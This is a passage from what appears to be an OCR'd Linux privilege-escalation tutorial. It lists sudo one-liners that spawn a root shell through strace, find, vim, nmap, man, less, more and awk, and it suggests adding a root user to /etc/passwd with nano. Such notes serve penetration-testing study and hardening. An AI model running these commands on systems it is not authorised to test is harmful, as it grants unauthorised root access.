 To Exploiting sudo user u need to find which command u have to allow.
sudo -l
Screenshot 9

The above command shows which command have allowed to the current user.

Here sudo -l, Shows the user has all this binary allowed to do as on root user without a password.

Let’s take a look at all binary one by one (which is mention in the index only) and Escalate Privilege to root user.

also try

sudo strace -o/dev/null /bin/bash
#### Using Find Command

sudo find /etc/passwd -exec /bin/sh \;

or

sudo find /bin -name nano -exec /bin/sh \;

#### Using Vim Command

sudo vim -c '!sh'

#### Using Nmap Command

Old way.

sudo nmap --interactive
nmap> !sh
sh-4.1#

Note: Nmap –an interactive option not available in the latest Nmap.

Latest Way without –interactive

echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse

#### Using Man Command

sudo man man

after that press !sh and hit enter
#### Using Less/More Command

sudo less /etc/hosts

sudo more /etc/hosts

after that press !sh and hit enter
#### Using awk Command

sudo awk 'BEGIN {system("/bin/sh")}'

#### Using nano Command

nano is text editor using this editor u can modify passwd file and add a user in passwd file as root privilege after that u need to switch user. Add this line in /etc/passwd to order to add the user as root privilege.
